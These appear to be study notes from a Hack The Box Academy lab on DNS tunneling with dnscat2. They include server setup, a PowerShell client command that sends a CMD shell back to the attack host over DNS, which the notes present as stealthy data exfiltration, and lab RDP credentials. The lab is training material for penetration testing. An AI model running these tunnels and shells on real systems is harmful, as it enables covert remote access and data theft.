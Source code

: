 >[!TLDR] [Dnscat2](https://github.com/iagox86/dnscat2) is a tunneling tool that uses DNS protocol to send data between two hosts.
> Dnscat2 can be an extremely stealthy approach to exfiltrate data while evading firewall detections which strip the HTTPS connections and sniff the traffic.
> 


## Setting up dnscat2

### Cloning and Configuring Server
```go
git clone https://github.com/iagox86/dnscat2.git
```

```go
cd dnscat2/server/
```

```go
sudo gem install bundler
```

```go
sudo bundle install
```
### Start dnscat2 server
^395f65
```go
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```

- A secret key, to be provided to the dnscat2 client, will be appear in the output ^ee16f4
- The dnscat2 client will use this to authenticate to the external dnscat2 server

Use [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell), a dnscat2 compatible PowerShell-based client that we can run from Windows targets to establish a tunnel with our dnscat2 server. We can clone the project containing the client file to our attack host, then transfer it to the target.

## Cloning dnscat2-powershell to Attack Host
```go
git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

### Import dns2cat.ps1 to Windows host
```go
Import-Module .\dnscat2.ps1
```

### Establish a tunnel with the server running on our attack host. We can send back a CMD shell session to our server. 

==Use the PreSharedSecret from earlier when starting the server==  [[#^395f65|secret key]] 
```go
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```

### Listing dnscat2 Options
```go
dnscat2> ?
```

## Questions

Username
```go
htb-student
```

Password
```go
HTB_@cademy_stdnt!
```

IP
```go
10.129.42.198
```

RDP into Windows Machien via xfreerdp
```go
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.42.198
```

Start dnscat2 server
```go
sudo ruby dnscat2.rb --dns host=10.10.15.37,port=53,domain=inlanefreight.local --no-cache
```


### Confirming Established Sessions
```
window -i 1
```